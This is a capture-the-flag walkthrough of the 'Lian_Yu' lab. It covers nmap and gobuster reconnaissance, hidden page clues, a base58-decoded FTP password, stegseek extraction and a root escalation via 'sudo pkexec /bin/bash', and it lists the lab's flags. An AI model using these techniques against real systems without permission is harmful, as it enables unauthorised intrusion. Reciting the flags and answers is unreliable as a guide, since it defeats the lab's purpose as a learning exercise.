

# Lian_Yu Write-Up:
	
## Nmap:
	
To Start off this CTF, I did my usual, an NMap scan:
	
```
nmap -sS -vv -sC -sV -oN nmap_out {MACHINE_IP}
```

It returned the following ports:
	
```
PORT    STATE SERVICE REASON         VERSION
21/tcp  open  ftp     syn-ack ttl 63 vsftpd 3.0.2
22/tcp  open  ssh     syn-ack ttl 63 OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    syn-ack ttl 63 Apache httpd
111/tcp open  rpcbind syn-ack ttl 63 2-4 (RPC #100000)
```

Interesting, I have not dealt with port 111 before. I will keep that in mind later on in this CTF.

## Gobuster:

I then ran the following gobuster scan:

```
gobuster -e -t 25 -u {MACHINE_IP} -w dir_wordlist.txt -o gobuster_out -x .php,.txt,.js,.html -s 200,204,301,302,307
```

While the scan was running, I typed in the IP address of the machine into my browser to see the web page:
	


Apparently, this CTF is based on the TV show "Arrow". I had no idea. I have never seen the show. I hope that doesn't put me at too much of a disadvantage.

Looked through the page's source code, but found nothing of interest. I did save the background image. I ran some steganographic checks on it, but that also turned nothing of interest up.

After about 10 minutes of scanning, Gobuster found the following (also ran it on the subdirectory below):
	
```
http://{MACHINE_IP}/island 
http://{MACHINE_IP}/island/2100 
```

I pulled up the URL, and got this:
	


I pulled up the page source:
	
```html
<!DOCTYPE html>
<html>
<body>
<style>
 
</style>
<h1> Ohhh Noo, Don't Talk............... </h1>

<p> I wasn't Expecting You at this Moment. I will meet you there </p><!-- go!go!go! -->

<p>You should find a way to <b> Lian_Yu</b> as we are planed. The Code Word is: </p><h2 style="color:white"> vigilante</style></h2>

</body>
</html>
```

Two things of interest here:
	
1. The comment with the words: **go!go!go!**
2. The "code word" that is not visible on the main page: **vigilante**

One thing that you should take away from this is: "Security through obscurity" is not real security! What one might think is really clever and well-hid might be more obvious than you think.

I visited the **/island/2100** directory:
	


It has an embedded YouTube video, but it looks like the video is a dead link now. I hope that video wasn't important!

Here is the source code:
	
```html
<!DOCTYPE html>
<html>
<body>

<h1 align=center>How Oliver Queen finds his way to Lian_Yu?</h1>


<p align=center >
<iframe width="640" height="480" src="https://www.youtube.com/embed/X8ZiFuW41yY">
</iframe> <p>
<!-- you can avail your .ticket here but how?   -->

</header>
</body>
</html>
```

Hmmm, **".ticket"**? I looked at the reference to a filename that I am supposed to find with a ".******" extension. Maybe try a Gobuster search for ".ticket" extensions?

```
gobuster -e -t 50 -u {MACHINE_IP}/island/2100 -w dir_wordlist.txt -o gobuster_out -x '.ticket' -s 200,204,301,302,307

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://{MACHINE_IP}/island/2100/
[+] Threads      : 50
[+] Wordlist     : dir_wordlist.txt
[+] Status codes : 200,204,301,302,307
[+] Extensions   : ticket
[+] Expanded     : true
[+] Timeout      : 10s
=====================================================
2021/03/01 21:02:10 Starting gobuster
=====================================================
http://{MACHINE_IP}/island/2100/green_arrow.ticket (Status: 200)
```

I got it! **green_arrow.ticket** it is! Here is the file's text:
	
```
This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

So, as far as interesting data, I have **"vigilante"**, **"go!go!go!"**, and **"RTy8yhBQdscX"**.

I tried combinations of these to get into the FTP server, it didn't work. I was stumped, tried different decodings, but nothing seemed to work. I looked up another walkthrough, and apparantly, this is base58 encoded. I have never even heard of base58 encoding. Anyway, I decoded this string and got:
	
```
!#th3h00d
```

I logged into the FTP server with the following credentials: Name=**vigilante**, Password=**!#th3h00d**:
	
```
ftp {MACHINE_IP}
Connected to {MACHINE_IP}.
220 (vsFTPd 3.0.2)
Name ({MACHINE_IP}:kirsten): vigilante
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

I performed an **ls** command:
	
```
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
```

I performed an **mget** command to get all the files onto my computer. 

Here are the files I got:
	
[aa.jpeg](./aa.jpg)

[Leave_me_alone.png](./Leave_me_alone.png)

[Lianyu.png](./Lianyu.png)

["Queen's_Gambit.png"](./"Queen's_Gambit.png")

I also went back a directory, and performed an **ls** command, and got the following:
	
```
drwx------    2 1000     1000         4096 May 01  2020 slade
drwxr-xr-x    2 1001     1001         4096 May 05  2020 vigilante
```

I performed some steganographic analysis on the files. I got something when I ran stegseek on the **aa.jpeg** file:
	
```
stegseek aa.jpg rockyou.txt 
StegSeek version 0.5
Progress: 0.00% (1658 bytes)           

[i] --> Found passphrase: "password"
[i] Original filename: "ss.zip"
[i] Extracting to "aa.jpg.out"
```

I extracted 2 files from the **aa.jpg.out** file:
	
1. passwd.txt 
2. shado

passwd.txt contents:
	
```
This is your visa to Land on Lian_Yu # Just for Fun ***


a small Note about it


Having spent years on the island, Oliver learned how to be resourceful and 
set booby traps all over the island in the common event he ran into dangerous
people. The island is also home to many animals, including pheasants,
wild pigs and wolves.
```

I don't know if the above is useful...

shado contents:
	
```
M3tahuman
```

This looks like a password. Maybe SSH? I tried a few names, Oliver, Ollie, Arrow... Nothing was working. But then I remembered a name I saw in the FTP server: **slade**

I tried it:
	


It worked! I found a file called **"user.txt"** in the current directory:
	
```
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```
	
That's the User Flag! Let's try to get a root shell!

I ran **sudo -l** and got:
	
```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Well, this will be easy. "pkexec" has the SUID set, which means it can run with sudo priveleges. Since "pkexec" allows one to run an arbitrary command as another user, I can use pkexec to get a bash shell as root:
	
```
slade@LianYu:~$ sudo pkexec /bin/bash
root@LianYu:~# 
```

Now I am root! There is a file called **root.txt** in the current directory:
	
```
                          Mission accomplished


You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 


THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```

That's it! I hope you found this useful!


	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	

